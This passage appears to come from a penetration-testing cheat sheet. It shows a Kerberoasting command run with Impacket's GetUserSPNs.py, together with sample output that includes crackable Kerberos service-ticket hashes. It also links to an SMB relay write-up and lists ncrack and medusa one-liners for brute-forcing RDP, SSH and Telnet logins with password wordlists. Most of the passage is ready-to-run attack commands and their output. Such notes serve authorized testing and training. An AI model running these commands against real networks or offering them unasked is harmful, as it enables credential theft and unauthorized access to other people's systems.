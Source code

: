 ### GetUserSPNS.py

This is the easiest way to gather SPN tickets in the correct format for cracking with John or Hashcat
Source: https://room362.com/post/2016/kerberoast-pt2/
```
	root@wpad:~/impacket/examples# ./GetUserSPNs.py -request sittingduck.info/notanadmin -dc-ip <target DC ip address>
	Impacket v0.9.15-dev - Copyright 2002-2016 Core Security Technologies

	Password:
	ServicePrincipalName                Name        MemberOf                                              PasswordLastSet
	----------------------------------  ----------  ----------------------------------------------------  -------------------
	http/win10.sittingduck.info         uberuser    CN=Enterprise Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
	MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01                                                        2016-05-13 19:13:20

	$krb5tgs$23$*sqladmin01$SITTINGDUCK.INFO$SPN*$6e5307df490c6e3339f613fdc5655785$80ba233b4d24531202f2e354c99e7eda807bde7aeeb48ee4cdb6bf809d78652413699e3cff8b9b78b9ee70e997a538155fc7f72e208d715020d458b8413d4b12b212738833c4694d84937d65cb8ecd0020c00a5d39c07da35a748ea2cb062fca4fa9b282e7046d70ee1cae4cfee7d6f791052e283
	$krb5tgs$23$*uberuser$SITTINGDUCK.INFO$SPN*$27c08ed2a8d5394f66e8c13c25c98393$310b787ec5c10b20fcc0acb1406b6a6e2ffddd71de3dc4c70c19e5dfcf262cc88574e61cb3940ebfd574b2bb555f2b05f84d8526e3cf46fc0ca57e03467729757cbf79da9f55cde9dabdda68e80dce6564e9f1b904b0585dbc813b82abf89e973e41c102b664f4c649f85acaf7904a273dddcb9315a66f27334f313190e1caf4f5055b671d250f5912cc1871a1dd4a6126087ddfb98ade8f7dde495ee8ad76583aa5a12eef63a690dd82a15eaaca0d7594f2f1dbc899035d89dd628b291590058cfb3405d1dfe4a383be5704465d9c8972ef8f1cba3541fdfa7dcf5063eaed74051fa18bd73f7b4f7d77
```

### SMBRelayx.py

https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python/?utm_medium=Social&utm_source=Twitter&utm_content=SANSPenTest+BLOG+SMB+Relay+Demystified&utm_campaign=SANS+Pen+Test

## Brute Force Techniques

RDP Brute
```
	ncrack -u administrator -P 500-worst-passwords.txt -p 3389 10.212.50.21
```

SSH Brute
```
	medusa -M ssh -C /usr/share/wordlists/ssh.lst -H 22.txt -T 10| grep SUCCESS |tee medusa-results.txt
```

Telnet Brute
```
	medusa -M telnet -C /usr/share/wordlists/telnet.lst -H 23.txt -T 10 -t 3| grep SUCCESS |tee medusa-results.txt
```
